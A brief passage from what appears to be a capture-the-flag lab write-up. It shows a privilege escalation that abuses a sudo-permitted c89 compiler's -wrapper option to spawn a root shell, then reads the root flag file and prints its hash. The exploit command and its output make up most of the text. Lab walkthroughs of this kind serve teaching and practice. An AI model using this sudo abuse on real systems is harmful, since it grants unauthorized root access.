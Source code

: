 ![Pasted image 20250604171501.png](../../IMAGES/Pasted%20image%2020250604171501.png)

So, we can do:


```
sudo /usr/bin/c89 -wrapper /bin/sh,-s .
```

![Pasted image 20250604171534.png](../../IMAGES/Pasted%20image%2020250604171534.png)

There we go, we got root access:

```
# cat /root/root.txt
d6c4a33bec66ea2948f09a0db32335de
```

